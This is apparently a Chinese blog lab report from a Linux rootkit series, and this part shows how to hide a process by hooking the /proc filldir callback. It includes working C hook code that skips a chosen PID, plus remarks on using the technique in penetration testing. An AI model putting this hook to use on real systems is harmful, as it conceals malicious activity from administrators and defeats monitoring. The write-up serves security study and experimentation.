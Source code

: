 ```yaml
---
category: rootkit
title: Linux Rootkit 实验 | 00023 Rootkit 基本功能实现x隐藏进程
---
```


# {{ page.title }}

> 衣带渐宽终不悔，为伊消得人憔悴。

## 实验说明

本次实验将初步实现 rootkit 的基本功能：

- 阻止其他内核模块加载
- 提供 root 后门
- 隐藏文件
- 隐藏进程
- 隐藏端口
- 隐藏内核模块

本次实验基于 0001 实验中学习的挂钩技术。

注：由于本次实验内容过多，故分为`00020`到`00025`六个实验报告分别讲解。

**本节实现“隐藏进程”功能**

## 实验环境

```
uname -a:
Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux

GCC version:6.1.1
```

上述环境搭建于虚拟机，另外在没有特殊说明的情况下，均以 root 权限执行。

**注：后面实验参考的是4.10.10的源码**

## 实验过程

### 隐藏进程

“Linux 上纯用户态枚举并获取进程信息，/proc 是唯一的去处。所以，对用户态隐藏进程，我们可以隐藏掉/proc 下面的目录，这样用户态能枚举出来进程就在我们的控制下了。”

我们只需要把`fake_filldir`修改一下，改为匹配进程号即可：

{% highlight c %}
int
fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    char *endp;
    long pid;

    // 把字符串变成长整数。
    pid = simple_strtol(name, &endp, 10);

    if (pid == SECRET_PROC) {
        // 是我们需要隐藏的进程，直接返回。
        printk("Hiding pid: %ld", pid);
        return 0;
    }
    // 不是需要隐藏的进程，交给真的 ``filldir`` 填到缓冲区里。
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
{% endhighlight %}

测试结果如下：

图片中一个 shell 的`PID`是`3033`。在没有加载模块之前，`ps`可以看到该进程。在加载模块之后，`ps`中无该进程：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-18.png)

卸载模块后，进程重新在`ps`中出现：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-19.png)

## 实验问题

【问题一】

本实验中，我们是把进程号写死在代码里，这样十分不方便。很明显，在实际渗透过程中，我们需要隐藏的进程的进程号只有在运行时才知道。一种可以借鉴的改进思路是：新设定一个信号，模块运行时，我们给哪个进程发该信号，那个进程就被隐藏起来。这是 [m0nad/Diamorphine](https://github.com/m0nad/Diamorphine) 这个 rootkit 的设计。未来我会写一篇文章专门分析这个 rootkit，它的其他思路也是很有意思的。
